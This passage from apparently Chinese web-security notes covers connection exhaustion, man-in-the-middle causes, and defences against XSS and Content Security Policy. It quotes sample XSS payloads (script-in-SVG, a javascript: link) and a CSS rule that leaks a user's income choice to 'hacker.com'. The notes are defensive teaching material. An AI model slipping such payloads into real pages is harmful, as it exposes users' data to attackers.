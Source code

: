 ​              导致，握手没有完成， connection 不能被释放，达到最大可连接数，无法连接新请求



### 传输层 — 中间人攻击

<img src = 'https://i.bmp.ovh/imgs/2022/01/3c7be4efb4995095.png' style="zoom: 50%;" />

原因：

+ 明文传输
+ 信息篡改不可知
+ 对方身份未验证



## 防御篇

### XSS

+ 永远不信任用户的提交内容
+ 不要将用户提交内容直接转换成 DOM

+ 现成工具：
  + 前端：主流框架默认防御 xss、google-closure-library
  + 服务端 node：DOMPurify

+ 用户需求：需要动态生成 DOM，需要注意的点：
  + string 转 DOM：注意转译 new DOMParse()

  + 上传 svg：对其进行扫描，避免生成图片

    ~~~html
    <svg>
        <script>alert("xss")</script>
    </svg>
    ~~~

  + 自定义跳转链接：要过滤，因为可以写js

    ~~~html
    <a href="javascript:alert('xss')"></a>
    ~~~

  + 自定义样式：

    ~~~css
    input[type=radio].income-gt10k:checked{
        background: url("https://hacker.com/?income=gt10k")
    }
    ~~~

    

### CSP - Content Security Policy 内容安全策略

+ 哪些源被认为是安全的
+ 来自安全源的脚本可以执行，否则直接抛错
+ 禁止 eval + inline script 
